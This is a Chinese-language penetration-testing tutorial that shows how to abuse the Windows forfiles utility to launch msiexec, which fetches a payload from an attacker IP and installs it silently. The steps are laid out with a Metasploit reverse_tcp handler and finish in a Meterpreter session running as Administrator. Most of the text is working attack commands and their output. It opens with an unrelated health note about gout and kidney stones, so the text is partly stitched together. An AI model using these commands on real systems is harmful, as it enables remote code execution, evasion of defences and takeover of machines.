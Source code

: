 **注：**请多喝点热水或者凉白开，可预防**肾结石，通风**等。
痛风可伴发肥胖症、高血压病、糖尿病、脂代谢紊乱等多种代谢性疾病。

### Forfiles简介：

Forfiles为Windows默认安装的文件操作搜索工具之一，可根据日期，后缀名，修改日期为条件。常与批处理配合使用。

微软官方文档：  
https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/cc753551(v=ws.11)

说明：Forfiles.exe所在路径已被系统添加PATH环境变量中，因此，Forfiles命令可识别，需注意x86，x64位的Forfiles调用。

Windows 2003 默认位置：
`C:\WINDOWS\system32\forfiles.exe
C:\WINDOWS\SysWOW64\forfiles.exe`

Windows 7 默认位置：
`C:\WINDOWS\system32\forfiles.exe
C:\WINDOWS\SysWOW64\forfiles.exe`

**攻击机：** 192.168.1.4 Debian  
**靶机：** 192.168.1.119 Windows 2003

### 配置攻击机msf：
```bash
msf exploit(multi/handler) > show options 

Module options (exploit/multi/handler): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐

Payload options (windows/meterpreter/reverse_tcp): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐

EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process, none)

LHOST 192.168.1.4 yes The listen address (an interface may be specified)

LPORT 53 yes The listen port 

Exploit target: 

Id Name
 ‐‐ ‐‐‐‐
0 Wildcard Target 

msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.1.4:53 
```
![](/img/caedeec0997c3ee413473c009faeebcb.jpg)

### 靶机执行：Windows 2003

![](/img/6ff0192b4034032c1a131ee6ab4a876e.jpg)

```bash
forfiles /p c:\windows\system32 /m cmd.exe /c "msiexec.exe /q /i http://192.168.1.4/Micropoor_rev_x86_msi_53.txt"
```

![](/img/43ffb66347850546f46981339421e5d4.jpg)

```bash
msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.1.4:53
[*] Sending stage (179779 bytes) to 192.168.1.119
[*] Meterpreter session 15 opened (192.168.1.4:53 ‐> 192.168.1.119:133
1) at 2019‐01‐20 06:34:08 ‐0500
meterpreter > getuid
Server username: WIN03X64\Administrator
meterpreter > getpid
Current pid: 392
meterpreter > 
```

![](/img/27318b0234b037aa459041021632b857.jpg)

>   Micropoor
